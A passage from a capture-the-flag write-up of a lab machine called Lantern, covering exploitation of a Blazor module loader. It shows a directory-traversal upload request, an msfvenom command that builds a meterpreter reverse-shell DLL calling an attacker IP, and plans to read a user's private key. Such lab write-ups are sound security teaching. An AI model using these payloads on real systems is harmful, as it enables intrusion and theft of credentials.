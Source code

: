 Within the module selector it is possible to define a custom module. The modules afforded to us are FileUpload, FileTree, Logs, HealthCheck, and Resumes. When attempting to run **module** as a module the response leaks the backend code is checking for `/opt/components/module.dll` and turning back to FileUpload I decide to check for directory traversal within the filename parameter.

![BTP directory traversal]({{ page.img }}_burp_BTP_serialized_directory.png)

I did this test twice and got results the second time, pretend the above says *raccoon.dll* instead of *test.dll*. Intercept the upload request and deserialize the data, change it to include the directory traversal, then reserialize and send. 

![blazor raccoon module test]({{ page.img }}_3000_raccoon_dll_upload.png)

![blazor admin module check]({{ page.img }}_3000_module_check.png)

So 2 things are at play here, there is an auto cleaning script which gives me a small window to run the dll, and I need to actually make a malicious dll. 

I first try to make a shell with msfvenom.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=7777 -f dll > racc_shell.dll
```

*Editor's Note: same thing as the previous note some control characters and special characters were removed from the response but you will see them if you do this yourself.*

```
POST /_blazor?id=XGXAr_D4CqyM1O-9vy4kYw HTTP/1.1
Host: lantern.htb:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://lantern.htb:3000/
Content-Type: text/plain;charset=UTF-8
X-Requested-With: XMLHttpRequest
X-SignalR-User-Agent: Microsoft SignalR/0.0 (0.0.0-DEV_BUILD; Unknown OS; Browser; Unknown Runtime Version)
Origin: http://lantern.htb:3000
Content-Length: 194
DNT: 1
Connection: close

êÀ·BeginInvokeDotNetFromJS¡2À¬NotifyChangeÙº[[{"blob":{},"size":9216,"name":"../../../../../../../../../opt/components/racc_shell.dll","id":1,"lastModified":"2024-08-24T04:24:12.616Z","contentType":"application/x-msdos-program"}]]
```

Same error as an empty file: bad IL format. I try another way at making my own dll from scratch before deciding it's better to shell out *FileUpload.dll*. I then need try to read tomas' key. Some of this was added with the assistance of Senior Dev GPT, and namely the builder and render parts got very upset in my testing if I ever modified or changed them. 

```bash
using Microsoft.AspNetCore.Components;
using Microsoft.AspNetCore.Components.CompilerServices;
using Microsoft.AspNetCore.Components.Forms;
using Microsoft.AspNetCore.Components.Rendering;
using System;
using System.Collections;
using System.Collections.Generic;
using System.Diagnostics;
using System.IO;
using System.Runtime.CompilerServices;
using System.Runtime.ExceptionServices;
using System.Threading;
using System.Threading.Tasks;
```